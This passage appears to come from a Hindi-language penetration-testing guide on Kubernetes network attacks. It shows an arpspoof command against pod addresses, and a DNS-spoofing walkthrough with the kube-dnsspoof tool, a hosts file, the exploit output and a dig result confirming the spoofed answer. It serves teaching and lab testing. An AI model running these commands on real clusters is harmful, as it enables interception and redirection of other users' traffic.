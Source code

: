 ```python

if __name__=="__main__":
main()

# To enable IP forwarding: echo 1 > /proc/sys/net/ipv4/ip_forward
```
{% endcode %}

### ARPSpoof
```bash
apt install dsniff
arpspoof -t 172.17.0.9 172.17.0.10
```
## DNS Spoofing

जैसा कि पहले ही उल्लेख किया गया है, यदि आप **DNS सर्वर पॉड** के उसी नोड में एक पॉड को **समझौता** करते हैं, तो आप **MitM** के साथ **ARPSpoofing** का उपयोग करके **ब्रिज और DNS** पॉड को **संशोधित** कर सकते हैं और **सभी DNS प्रतिक्रियाओं** को **बदल** सकते हैं।

आपके पास इसे परीक्षण करने के लिए एक बहुत अच्छा **उपकरण** और **ट्यूटोरियल** है [**https://github.com/danielsagi/kube-dnsspoof/**](https://github.com/danielsagi/kube-dnsspoof/)

हमारे परिदृश्य में, **हमलावर पॉड** में **उपकरण** डाउनलोड करें और एक \*\*फाइल नाम `hosts` \*\* बनाएं जिसमें आप जिन **डोमेन** को **स्पूफ** करना चाहते हैं, जैसे:
```
cat hosts
google.com. 1.1.1.1
```
ubuntu-victim मशीन पर हमला करें:
```
python3 exploit.py --direct 172.17.0.10
[*] starting attack on direct mode to pod 172.17.0.10
Bridge:  172.17.0.1 02:42:bd:63:07:8d
Kube-dns:  172.17.0.2 02:42:ac:11:00:02

[+] Taking over DNS requests from kube-dns. press Ctrl+C to stop
```

```bash
#In the ubuntu machine
dig google.com
[...]
;; ANSWER SECTION:
google.com.		1	IN	A	1.1.1.1
```
{% hint style="info" %}
यदि आप अपना खुद का DNS स्पूफिंग स्क्रिप्ट बनाने की कोशिश करते हैं, यदि आप **बस DNS प्रतिक्रिया को संशोधित करते हैं** तो यह **काम नहीं करेगा**, क्योंकि **प्रतिक्रिया** में **src IP** **दुष्ट** **पॉड** का IP पता होगा और इसे **स्वीकृत** नहीं किया जाएगा।\
आपको **नया DNS पैकेट** उत्पन्न करने की आवश्यकता है जिसमें **src IP** उस **DNS** का हो जहाँ पीड़ित DNS अनुरोध भेजता है (जो कुछ ऐसा है जैसे 172.16.0.2, न कि 10.96.0.10, यह K8s DNS सेवा का IP है और न कि DNS सर्वर का IP, इसके बारे में अधिक जानकारी परिचय में है)।
{% endhint %}
